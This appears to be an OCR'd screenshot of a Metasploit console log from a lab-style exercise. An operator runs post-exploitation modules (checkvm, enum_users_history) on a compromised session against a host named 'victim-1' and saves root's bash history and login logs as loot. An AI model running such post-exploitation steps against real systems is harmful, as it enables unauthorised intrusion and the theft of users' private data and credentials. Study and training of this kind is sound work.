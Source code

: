 ```
   SESSION                   yes       The session to run this module on.

msf5 post(linux/gather/checkvm) > set SESSION 8
SESSION => 8
msf5 post(linux/gather/checkvm) > run

[*] Gathering System info ....
[-] Failed to open file: /proc/scsi/scsi: core_channel_open: Operation failed: 1
[-] Post failed: NoMethodError undefined method `gsub' for nil:NilClass
[-] Call stack:
[-]   /usr/share/metasploit-framework/modules/post/linux/gather/checkvm.rb:74:in `run'
[*] Post module execution completed
```

```
msf5 post(linux/gather/checkvm) > search enum_users_history

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   1  post/linux/gather/enum_users_history                   normal  No     Linux Gather User History


msf5 post(linux/gather/checkvm) > use post/linux/gather/enum_users_history
msf5 post(linux/gather/enum_users_history) > show options

Module options (post/linux/gather/enum_users_history):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf5 post(linux/gather/enum_users_history) > set SESSION 8
SESSION => 8
msf5 post(linux/gather/enum_users_history) > run

[+] Info:
[+]     Debian GNU/Linux 8  
[+]     Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 GNU/Linux
[-] Failed to open file: /root/.ash_history: core_channel_open: Operation failed: 1
[+] bash history for root stored in /root/.msf4/loot/20230310155132_Linux_PE_192.111.31.3_linux.enum.users_721206.txt
[-] Failed to open file: /root/.csh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /root/.ksh_history: core_channel_open: Operation failed: 1 
[-] Failed to open file: /var/lib/usbmux/.viminfo: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/sudoers: core_channel_open: Operation failed: 1
[+] Last logs stored in /root/.msf4/loot/20230310155201_Linux_PE_192.111.31.3_linux.enum.users_298782.txt
[*] Post module execution completed
```
